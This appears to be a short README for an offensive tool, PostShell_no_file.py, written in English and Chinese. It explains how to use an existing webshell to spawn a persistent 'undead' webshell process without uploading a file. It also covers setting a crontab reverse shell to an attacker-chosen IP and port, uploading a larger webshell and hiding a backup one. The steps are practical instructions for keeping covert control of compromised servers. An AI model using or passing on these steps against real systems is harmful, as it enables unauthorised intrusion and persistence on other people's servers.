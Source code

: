 [\*] Usage :  
        

```python
python PostShell_no_file.py [no_file_shell] [webshell]  
```

[\*] Explain :  
        

```
no_file_shell:  undead shell without using script tags <?..?>, which looks like php -r  
        webshell:       new webshell filename, which ALREADY modified in undead.php by $file
```

  

[\*] ATTENTION :  
        ==DO modify the reverse IP and PORT!!!==   

利用已存在的webshell（如RCE），在不上传文件的情况下，在服务器直接生成不死马进程，生成小马同时利用crontab反弹shell

1.修改不死马中反弹shell的ip和port
2.将已知的可利用webshell写入webshell.txt
3.将常规不死马的<?...?>标签去掉即可
4.执行python .\PostShell_no_file.py .\undead_no_file.php conf.bak.php
5.上传大马完成，收割

p.s.如有时间，找另一个隐蔽位置上传备份MD5不死马



python .\PostShell_no_file.py .\undead_no_file.php conf.bak.php
